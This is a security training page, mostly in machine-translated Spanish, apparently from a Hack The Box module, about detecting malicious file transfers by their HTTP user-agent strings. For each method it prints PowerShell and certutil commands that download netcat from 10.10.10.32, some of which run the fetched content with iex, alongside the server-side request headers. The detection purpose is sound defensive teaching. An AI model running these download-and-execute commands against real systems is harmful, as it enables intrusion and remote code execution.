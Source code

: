 # Detección

La detección de la línea de comandos basada en la lista negra es sencilla para omitir, incluso utilizando una simple ofuscación de casos. Sin embargo, aunque el proceso de la lista blanca de todas las líneas de comando en un entorno particular es inicialmente lento, es muy robusto y permite una detección rápida y alerta en cualquier línea de comando inusual.

La mayoría de los protocolos de cliente cliente requieren que el cliente y el servidor negocien cómo se entregará el contenido antes de intercambiar información. Esto es común con el`HTTP`protocolo. Existe la necesidad de interoperabilidad entre diferentes servidores web y tipos de navegadores web para garantizar que los usuarios tengan la misma experiencia sin importar su navegador. Los clientes HTTP son reconocidos más fácilmente por su cadena de agente de usuario, que el servidor utiliza para identificar qué`HTTP`El cliente se está conectando, por ejemplo, Firefox, Chrome, etc.

Los agentes de los usuarios no solo se usan para identificar los navegadores web, sino cualquier cosa que actúe como un`HTTP`cliente y conectarse a un servidor web a través de`HTTP`puede tener una cadena de agente de usuario (es decir,`cURL`, una costumbre`Python`script, o herramientas comunes como`sqlmap`, o`Nmap`).

Las organizaciones pueden tomar algunos pasos para identificar posibles cadenas de agentes de usuarios mediante la creación de una lista de una lista de cadenas de agentes de usuarios legítimos conocidos, agentes de usuarios utilizados por procesos de sistema operativo predeterminado, agentes de usuario comunes utilizados por los servicios de actualización como la actualización de Windows y las actualizaciones antivirus, etc. Estos pueden alimentarse en una herramienta de SIEM para la caza de amenazas para filtrar el tráfico legítimo y el enfoque en anomalías que pueden indicar un comportamiento suspendido. Cualquier cadena de agente de usuario de aspecto sospechoso puede investigarse más a fondo para determinar si se usaron para realizar acciones maliciosas. Este[sitio web](http://useragentstring.com/index.php)es útil para identificar cadenas comunes de agentes de usuarios. Una lista de cadenas de agentes de usuario está disponible[aquí](http://useragentstring.com/pages/useragentstring.php).

Las transferencias de archivos maliciosos también pueden ser detectadas por sus agentes de usuario. Los siguientes agentes/encabezados de los usuarios se observaron desde el común`HTTP`Técnicas de transferencia (probadas en Windows 10, versión 10.0.14393, con PowerShell 5).

### **Invoke -WebRequest - Cliente**

Detección

```powershell
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"

```

### **Invoke -WebRequest - servidor**

Detección

```
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0

```

### **Winhttprequest - Cliente**

Detección

```powershell
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);PS C:\htb> $h.send();PS C:\htb> iex $h.ResponseText
```

### **Winhttprequest - servidor**

Detección

```
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)

```

### **Msxml2 - cliente**

Detección

```powershell
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);PS C:\htb> $h.send();PS C:\htb> iex $h.responseText
```

### **Msxml2 - servidor**

Detección

```
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)

```

### **Certutil - Cliente**

Detección

```
C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe
C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe

```

### **Certutil - servidor**

Detección

```
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0

```

### **Bits - cliente**

Detección

```powershell
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;PS C:\htb> $r=gc $env:temp\t;PS C:\htb> rm $env:temp\t; PS C:\htb> iex $r
```

### **Bits - servidor**

Detección

```
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8

```

This section just scratches the surface on detecting malicious file transfers. It would be an excellent start for any organization to create a whitelist of allowed binaries or a blacklist of binaries known to be used for malicious purposes. Furthermore, hunting for anomalous user agent strings can be an excellent way to catch an attack in progress. We will cover threat hunting and detection techniques in-depth in later modules.